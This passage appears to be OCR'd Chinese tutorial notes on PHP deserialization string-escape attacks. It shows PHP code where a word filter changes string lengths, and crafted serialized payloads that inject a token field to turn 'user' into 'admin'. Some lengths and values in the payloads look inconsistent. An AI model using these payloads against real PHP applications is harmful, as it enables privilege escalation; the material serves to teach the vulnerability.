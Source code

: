 ```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

function filter($msg){
	return str_replace('fuck', 'loveU', $msg);
}
$msg = new message('a','b','fuck');
$msg_1=serialize($msg);
echo $msg_1;
```

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"fuck";s:5:"token";s:4:"user";}
```

进行字符串逃逸以后

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:4:"loveU";s:5:"token";s:4:"user";}
```

可以看出序列化字符串loveU前面的本应该是5，结果是4，导致失败，而我们可以利用这个特点，在后面通过闭合加上自己构建的序列化内容，达到修改user为admin的目的。

```
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:5:"admin";}
```

最后可以构造成这个字符串，'}' 后面的东西会被自动忽略掉

##### 替换字符变少

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

function filter($msg){
	return str_replace('fuck', 'icu', $msg);
}
$msg = new message('a','fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck','";s:5:"token";s:5:"admin";}');
$msg_1=serialize($msg);
echo filter($msg_1);
echo strlen('icuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicuicu";s:2:"to";s:27:"";s:5:"token";s:5:"admin";}');
//";s:5:"token";s:4:"admin";}
```